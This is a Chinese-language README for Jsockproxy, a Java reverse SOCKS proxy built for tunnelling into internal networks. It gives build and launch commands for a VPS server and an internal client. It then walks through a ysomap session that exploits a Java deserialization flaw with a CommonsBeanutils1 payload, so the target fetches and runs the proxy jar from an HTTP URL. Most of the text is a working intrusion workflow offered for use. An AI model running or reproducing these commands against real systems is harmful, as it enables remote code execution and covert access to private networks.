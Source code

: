 # 概述

Jsockproxy是Java版反向socks代理，适用于内网穿透。

# 编绎
```
mvn clean package -DskipTests
```

# 启动

## 服务端（部署在VPS）

```
java -cp target/jsockproxy.jar jsockproxy.server.ProxyServerApp -ssl false -serverPort VPS服务器端口 -token 123456
```

## 客户端（内网服务器）

```
java -cp target/jsockproxy.jar jsockproxy.client.ProxyClientApp -ssl false -token 123456 -trunnelHost VPS服务器IP -trunnelPort VPS服务器端口 -groups test -serverFrontPorts VPS服务器代理端口
```

# 备注

## 直接默认配置启动

这场景主要是Java反序列化场景下，远程加载jar文件，按照默认配置，向服务端建立起反向代理，并进行内网渗透的场景：

## 使用前

```
// 修改下面代码中默认配置，具体看注释
jsockproxy.server.ProxyServerApp
jsockproxy.client.ProxyClientApp

// 编译
mvn clean package -DskipTests
```

## 服务端（部署在VPS）

```
java -cp target/jsockproxy.jar jsockproxy.server.ProxyServerApp
```
## Java 反序列化漏洞测试，例如使用[ysomap](https://github.com/wh1t3p1g/ysomap)

```
java -jar cli/target/ysomap.jar cli
use exploit LDAPLocalChainListener
use payload CommonsBeanutils1
use bullet TemplatesImplBullet
set lport 1389
set type loader
set effect RemoteFileHttpLoader
set body "http://127.0.0.1/jsockproxy.jar;jsockproxy.client.ProxyClientStart"
run
```
